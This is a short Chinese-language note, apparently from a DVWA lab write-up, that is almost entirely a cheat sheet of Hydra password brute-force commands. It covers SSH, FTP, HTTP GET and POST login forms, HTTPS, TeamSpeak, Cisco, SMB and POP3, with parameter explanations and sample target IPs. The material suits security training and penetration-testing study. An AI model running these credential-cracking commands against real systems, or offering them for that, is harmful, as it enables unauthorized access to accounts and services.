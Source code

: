    ![](./pictures/dvwa_login_hydra.png)

### 原理

1. ```
   hydra -L <用户名列表> -p <密码列表> <IP地址> <表单参数> <登录失败消息>
   ```

2. ```
   1、破解ssh： 
   hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
   hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 
   
   
   2、破解ftp： 
   hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
   hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
   
   
   3、get方式提交，破解web登录： 
   hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
   hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
   
   
   4、post方式提交，破解web登录： 
   hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password" 
   hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>" 
   （参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中 的内容是表示错误猜解的返回信息提示。） 
   
   
   5、破解https： 
   hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
   
   6、破解teamspeak： 
   hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
   
   7、破解cisco： 
   hydra -P pass.txt 10.36.16.18 cisco 
   hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
   
   8、破解smb： 
   hydra -l administrator -P pass.txt 10.36.16.18 smb 
   
   9、破解pop3： 
   hydra -l muts -P pass.txt my.pop3.mail pop3 
   ```